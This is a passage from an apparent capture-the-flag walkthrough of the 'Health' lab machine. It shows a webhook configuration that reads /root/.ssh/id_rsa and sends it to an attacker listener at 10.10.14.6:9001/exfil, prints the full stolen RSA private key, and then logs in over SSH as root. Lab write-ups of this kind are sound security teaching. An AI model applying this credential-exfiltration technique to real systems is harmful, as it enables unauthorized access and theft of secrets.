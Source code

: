     {"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}



### SSH

I'll need to clean up the key. I can do it in `vim` with substitutions:

-   `:%s/\\n/^M/g` will replace the `\n` with newlines (where `^M` is
    made by hitting Ctrl-v and then Enter)
-   `:%s!\\\/!/!g` will replace the escaped `/` without the escapes.

With the key, I can SSH as root:



    oxdf@hacky$ vim ~/keys/health-root
    oxdf@hacky$ chmod 600 ~/keys/health-root
    oxdf@hacky$ ssh -i ~/keys/health-root root@health.htb
    Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)
    ...[snip]...
    root@health:~# 



And read the flag:



    root@health:~# cat root.txt
    1f58dc17************************







